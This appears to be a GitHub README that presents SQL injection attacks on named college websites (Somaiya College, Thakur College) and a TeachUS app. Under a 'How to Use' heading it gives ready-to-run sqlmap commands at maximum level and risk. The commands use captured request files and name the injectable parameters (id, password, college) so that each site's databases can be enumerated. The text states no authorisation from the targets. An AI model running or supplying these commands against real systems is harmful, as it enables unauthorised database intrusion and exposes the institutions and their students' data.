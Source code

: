 # Hacking Databases using SQLMap

This repository showcases how I successfully tested the security of these databases by exploiting SQL vulnerabilities. The tools I used 
 [SQLMap](http://sqlmap.org/) and [Acunetix](https://www.acunetix.com/).

## Prerequisites

Before running the SQLMap commands, ensure you have the following installed:

- [SQLMap](http://sqlmap.org/)
- [Acunetix](https://www.acunetix.com/)
- Python 2.7 or Python 3.x

You will also need the request files provided in this repository:

- `somaiyaClg.txt`
- `thakur.txt`
- `teachus.txt`

These files contain the HTTP requests captured during the penetration testing.

## Clone Repository
```bash
git clone https://github.com/seanvishwakarma/sqlmap-database-hack.git
```

## How to Use

### 1. Somaiya College Website

The SQL injection vulnerability was found in the `id` parameter.

```bash
sqlmap -r somaiyaClg.txt -p id --batch -o --level 5 --risk 3 --dbs
```
![Somaiya College SQLMap Result](images/somaiyaClg.png)

### 2. Thakur College Website

For Thakur College, the vulnerability was found in the `password` parameter.

```bash
sqlmap -r thakur.txt -p password --batch -o --level 5 --risk 3 --time-sec=5 --dbs
```
![Thakur College SQLMap Result](images/thakur.png)


### 3. TeachUS App Database

The TeachUS app database was vulnerable through the college parameter.

```bash
sqlmap -r teachus.txt -p college --batch -o --level 5 --risk 3 --dbs
```
![TeachUS App SQLMap Result](images/teachus.png)
